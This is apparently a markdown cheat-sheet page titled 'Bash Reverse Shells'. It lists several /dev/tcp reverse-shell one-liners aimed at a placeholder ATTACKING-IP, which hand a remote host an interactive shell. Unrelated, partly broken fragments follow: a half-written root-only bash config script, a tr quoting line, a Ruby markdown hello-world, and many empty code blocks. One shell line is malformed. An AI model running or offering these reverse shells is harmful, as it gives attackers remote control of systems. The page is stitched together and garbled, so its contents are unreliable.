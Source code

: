# Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

```

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```/bin/bash

###### CONFIG
ACCEPTED_HOSTS="/root/.hag_accepted.conf"
BE_VERBOSE=false

if [ "$UID" -ne 0 ]
then
 echo "Superuser rights required"
 exit 2
fi

genApacheConf(){
 echo -e "# Host ${HOME_DIR}$1/$2 :"
}

echo '"quoted"' | tr -d \" > text.txt

```

#

```ruby
require 'redcarpet'
markdown = Redcarpet.new("Hello World!")
puts markdown.to_html
```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
